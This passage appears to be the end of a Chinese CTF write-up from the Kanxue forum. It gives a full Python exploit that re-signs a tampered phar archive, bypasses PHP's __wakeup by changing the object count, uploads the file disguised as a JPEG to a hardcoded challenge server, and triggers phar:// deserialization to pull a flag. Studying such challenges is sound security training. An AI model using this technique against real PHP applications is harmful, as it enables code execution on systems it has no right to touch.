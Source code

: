   
修改签名并上传文件，访问后触发phar反序列化拿到flag。  
exp:

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    import requestsfrom hashlib import sha1import gzipimport redef getPhar():    with open('phar.phar', 'rb') as file:        f = file.read()    s = f[:-28] # 获取要签名的数据（对于sha1签名的phar文件，文件末尾28字节为签名的格式）    s = s.replace(b'3:{', b'4:{')# 绕过__wakeup    h = f[-8:] # 获取签名类型以及GBMB标识，各4个字节    newf = s + sha1(s).digest() + h # 数据 + 签名 + (类型 + GBMB)    return gzip.compress(newf)# 进行gzip压缩 def upload(file):    burp0_url = "http://1.14.71.254:28403/upload.php"    burp0_headers = {"Cache-Control": "max-age=0", "Upgrade-Insecure-Requests": "1", "Origin": "http://1.14.71.254:28403", "Content-Type": "multipart/form-data; boundary=----WebKitFormBoundaryfXBfemuGHEVNBhN8", "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.0.0 Safari/537.36", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9", "Referer": "http://1.14.71.254:28403/", "Accept-Encoding": "gzip, deflate", "Accept-Language": "zh-CN,zh;q=0.9", "Connection": "close"}    burp0_data = b"------WebKitFormBoundaryfXBfemuGHEVNBhN8\r\nContent-Disposition: form-data; name=\"file\"; filename=\"phar.jpg\"\r\nContent-Type: image/jpeg\r\n\r\n" + file + b"\r\n------WebKitFormBoundaryfXBfemuGHEVNBhN8\r\nContent-Disposition: form-data; name=\"submit\"\r\n\r\n\r\n------WebKitFormBoundaryfXBfemuGHEVNBhN8--\r\n"    # 注意数据类型为byte类型，应该file为byte类型，相同数据类型才能合并    requests.post(burp0_url, headers=burp0_headers, data=burp0_data) def getFlag():    burp0_url = "http://1.14.71.254:28403/"    burp0_headers = {"Pragma": "no-cache", "Cache-Control": "no-cache", "Upgrade-Insecure-Requests": "1", "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.0.0 Safari/537.36", "Origin": "http://1.14.71.254:28403", "Content-Type": "application/x-www-form-urlencoded", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9", "Referer": "http://1.14.71.254:28403/", "Accept-Encoding": "gzip, deflate", "Accept-Language": "zh-CN,zh;q=0.9", "Connection": "close"}    burp0_data = {"file": "phar://./upload/phar.jpg/test.txt", "submit": ''}    res = requests.post(burp0_url, headers=burp0_headers, data=burp0_data)    return re.findall('(NSSCTF\{.*?\})', res.text)[0] if __name__ == '__main__':    upload(getPhar())    print(getFlag())

  
运行得到flag。![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230301180822.png)ps：注意如果用burp代理抓包上传gzip压缩后的phar可能会有bug，burp会改变gzip数据，导致无法识别phar文件  

  

  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230301180823.png)

  

 **看雪ID：pank1s**

https://bbs.kanxue.com/user-home-952339.htm

*本文由看雪论坛 pank1s 原创，转载请注明来自看雪社区  
[![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230301180824.png)](http://mp.weixin.qq.com/s?__biz=MjM5NTc2MDYxMw==&mid=2458493067&idx=2&sn=098f64ed7bb35149efbb12c7a9551b08&chksm=b18e900186f91917b83a68408448658fba17a6a55011c39e7b1c504b42539710cd466e35fa43&scene=21#wechat_redirect)  

 **#** **  往期推荐  
**
